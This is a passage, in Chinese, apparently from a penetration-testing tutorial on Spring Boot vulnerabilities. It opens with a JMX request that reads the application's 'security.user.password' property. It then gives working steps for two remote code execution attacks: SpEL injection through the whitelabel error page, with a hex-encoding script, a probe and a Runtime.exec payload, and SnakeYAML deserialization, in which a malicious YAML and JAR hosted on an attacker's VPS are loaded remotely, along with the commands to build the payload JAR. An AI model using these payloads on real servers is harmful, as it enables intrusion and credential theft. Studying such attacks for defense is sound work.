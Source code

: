 ```
{"mbean":"org.springframework.boot:name=SpringApplication,type=Admin","operation":"getProperty","type":"EXEC","arguments":["security.user.password"]}
```  
### 远程代码执行  
  
主要问题是在于springboot存在一些组件漏洞造成的的，总结如下一些方法  
# Spring Boot whitelabel error page 远程命令执行漏  
  
漏洞原理：主要是因为使用了springboot默认错误页在处理参数值使用递归流程，流程进入到PropertyPlaceholderHelper 类中，${}包围的内容都会被 org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration 类的 resolvePlaceholder 方法当作 SpEL 表达式被解析执行，造成 RCE 漏洞漏洞文件：ErrorMvcAutoConfiguration.java  
  
漏洞复现，测试网站是否存在Whitelabel Error Page，通过fuzz一些参数值，如id、sid存在500报错，则可以测试去执行Spel表达式注入  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1HlnNWG5iaUQUWEU8icT4xicQjuJJyQKXzvN81TyMv4uia1rInM40Gk6m4THw/640?wx_fmt=png&from=appmsg "null")  
  
漏洞poc生成16进制的脚本  
```
input_string = "open -a Calculator"
hex_list =[]

for ch in input_string:
# 将字符转换为十六进制表示，并添加到列表中
    hex_list.append(f"0x{ord(ch):02x}")

hex_string =', '.join(hex_list)
print(hex_string)



//测试漏洞是否存在
${6*6}//看是否有返回36

//执行Calc命令
${T(java.lang.Runtime).getRuntime().exec(newString(newbyte[]{0x63,0x61,0x6c,0x63}))}
```  
# spring cloud SnakeYAML 远程命令执行  
  
利用条件：通过去查看是否存在/env 或 /actuator/env泄露，请求是否存在spring-boot-starter- actuator，目标主机可出网，且版本小于1.3.0.RELEASE漏洞原理：Spring Cloud 配置通过 spring.cloud.bootstrap.location 指向恶意 YML 文件 URL，触发 refresh 请求该文件，利用 SnakeYAML 反序列化漏洞拉取恶意 JAR 并实例化其中的 javax.script.ScriptEngineFactory 实现类，导致远程代码执行（RCE）。  
  
漏洞复现过程：  
  
1、 在vps主机开放一个端口上传一个exp.yml文件进行远程加载，写入恶意执行代码执行  
  
参考：https://github.com/artsploit/yaml-payload  
```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```  
  